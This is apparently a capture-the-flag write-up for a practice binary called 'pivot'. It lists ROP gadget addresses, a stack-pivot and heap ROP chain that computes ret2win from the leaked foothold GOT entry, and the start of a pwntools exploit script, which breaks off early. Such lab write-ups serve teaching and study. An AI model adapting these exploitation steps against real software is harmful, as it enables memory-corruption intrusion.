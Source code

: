 
We can use these gadgets:

1. pop `rax` to get `foothold_function` got address into it: `0x0000000000400b00: pop rax; ret;`
2. Move the actual value, which is `foothold_function` address into `rax`: `0x0000000000400b05: mov rax, qword ptr [rax]; ret;`
3. pop `rbp` to get our offset (`0x14e`) into it: `0x0000000000400900: pop rbp; ret;`
4. add `rbp` to `rax`: `0x0000000000400b09: add rax, rbp; ret;`
5. call the function: `0x000000000040098e: call rax;`

After that, for our buffer overflow, we can again use the `pop rax` gadget to get the heap address (which we get from the binary output) into it, and then swap `rsp` and `rax` (`0x0000000000400b02: xchg rax, rsp; ret;`) so we'll get our pivot - the `rsp` will point to the heap memory!

### Technical Chain

1. Call `foothold_function`

2. Load effective address of `foothold@got`

3. Add `0x14E` to that register

4. Return to the address in that register

5. Calculate `ret2win` address and return to it

Stack chain:

1. `xchg rax, rsp; ret;`

2. `pop rax; ret`

3. LEAKED HEAP ADDRESS

Heap ROP chain:

1. `0x0000000000400850` (foothold plt)

2. `pop rax; ret;`

3. `0x000000602048` (foothold got)

4. `pop rbp; ret;`

5. `0x14E`

6. `add rax, rbp; ret;`

7. Load effective address of `rax`

8. `call rax`

```python
from pwn import *

ret2win_offset = 0x0000000000000abe
foothold_offset = 0x0000000000000970
add_offset = ret2win_offset - foothold_offset
foothold_plt = 0x0000000000400850
foothold_got = 0x000000602048

xchg_rax = 0x000400b02
pop_rax = 0x0000000000400b00
add_rax_rbp = 0x0000000000400b09
pop_rbp = 0x0000000000400900
load_rax =0x0000000000400b05
call_rax = 0x000000000040098e

def exploit():
    p = process("./pivot")
    raw_input(str(p.proc.pid))


```